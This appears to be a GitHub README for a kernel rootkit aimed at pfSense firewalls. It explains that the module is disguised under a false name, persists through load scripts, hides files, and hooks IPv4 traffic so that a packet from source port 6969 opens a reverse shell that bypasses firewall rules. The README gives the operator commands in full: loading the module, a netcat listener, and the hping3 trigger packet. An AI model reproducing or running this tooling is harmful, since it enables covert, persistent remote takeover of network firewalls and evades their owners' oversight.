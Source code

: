 First off, I would like to give a massive thank you to my friend Sharad(mineo333) for helping 
create the functionality of forking a process and running kern_execve() in the child.  This is the
core of the entire rootkit and what allows for code execution upon the condition of a packet
with a certain source port being seen.  I could not have done this without his help.

Secondly, the functionality that hides file is completely 1 for 1 ripped from BlueDragonSecurity's(bluedragonsecurity) repo bds_freebsd.  Big thanks for making this. 

An important note, the current .ko files are only usable for pfSense 2.7.2 CE.
You to compile these yourself, you must do it within a pfSense box, NOT a compatable freeBSD kernel.
To be able to compile within pfSense you must follow the steps outlined in "extra/how_to_setup_pfsense_to_compile.txt".

The "extra" directory holds the C code and Makefile to create an LKM that will eternally just print's a face, normal input will still work on the terminal it jsut scrolls really fast, you can also just unload it to make it stop. To load it you must run
kldload /boot/modules/.evil/evil.ko

ldpreload/LD_PRELOAD is a false name used for the rootkit since this LKM does not exist within pfSense but appears normal.

This LKM/Rootkit has persistance, from ldpreload.sh, which is loaded via load_and_setup.sh.

To load the Rootkit you must clone this directroy, cd into it, chmod +x load_and_setup.sh, and run ./load_and_setup.sh.
You will be popped out into a ghost /Apekit-tooshit directory so run cd / after the script is done.

What does it do?
This Rootkit registers a custom hook to the top of the IPv4 head within pfSense and establishes reverse shells by forking the process that runs cat and running the reverse shell command in that fork with execve.
This is super duper mega awesome because even if firewall rules are made against the attacker IP, ports, anything.  The registered hook will still receive the packet and make a reverse shell.
We use socat to make the reverse shell since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.

To get a reverse shell!

Run "nc -lvnp 7000" on the attaking machine in a terminal.
In another terminal, send packets that will pop open a reverse shell with the command
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>"
Once you see the reverse shell connect, run control + c in the terminal that is sending the packets (you do not need to keep sending more traffic).
If the reverse shell doesn't connect after about 5 packets then run control + c in the terminal that is sending packets and re-run the command, packet filtering is finickey and sometimes you need to try a couple times.

